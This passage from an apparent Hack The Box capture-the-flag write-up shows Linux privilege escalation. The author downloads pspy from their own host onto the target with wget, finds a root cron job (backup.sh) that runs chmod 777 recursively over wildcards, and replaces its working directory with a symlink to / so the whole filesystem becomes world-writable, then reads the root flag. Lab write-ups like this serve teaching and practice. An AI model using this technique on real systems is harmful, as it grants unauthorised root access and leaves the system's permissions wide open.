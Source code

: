           Serving HTTP on 0.0.0.0 port 8000 ...

        ```
      - __`giovanni`__ shell:
        ```console
        $ wget -O /tmp/pspy64 http://<HTB IPv4>:8000/pspy64

          ‘/tmp/pspy64’ saved [4468984/4468984]
        
        $ chmod +x /tmp/pspy64
        
        $ ./pspy64

          ...omitted...
          04:01 CMD: UID=0    PID=1342   | /bin/bash /usr/bin/backup.sh
          ...omitted...
          05:01 CMD: UID=0    PID=1354   | /bin/bash /usr/bin/backup.sh
          ...omitted...
          06:01 CMD: UID=0    PID=1375   | /bin/bash /usr/bin/backup.sh
          ...omitted...

        ```
        __NOTE(S)__:
        - There is a script called __*backup.sh*__
        - It runs every minute
>
2. Examine __*/usr/bin/backup.sh*__
   - __`backup.sh`__:
     ```sh
     #!/bin/bash
     cd /home/giovanni/work;
     tar -czvf tmp/backup_courses.tar.gz courses/*;
     cd tmp;
     tar -xf backup_courses.tar.gz;
     chmod 777 * -R;
     ```

   __NOTE(S)__:
   - The script is being ran by __root__ periodically
   - Contents of the `courses/` directory are compressed
     - The compressed file is saved in `~/work/tmp`
   - The compressed file is decompressed on where it is saved
   - The first __tar__ and __chmod__ use wildcards ("__*__")
   - Everything inside `~/work/tmp` will have its permissions changed
>
4. Exploit __*/usr/bin/backup.sh*__:
   ```console
   $ cd /home/giovanni/work

   $ rm -rf tmp

   $ ln -s / ./tmp
   ```
   - after __*backup.sh*__ runs:
     ```console
     $ cat /root/root.txt

       4f3a83b42ac7723a508b8ace7b8b1209

     ```

   __NOTE(S)__:
   - `~/work/tmp` was changed to have a symbolic link to `/`
   - Now, everything inside `/` has `-rwxrwxrwx`permissions
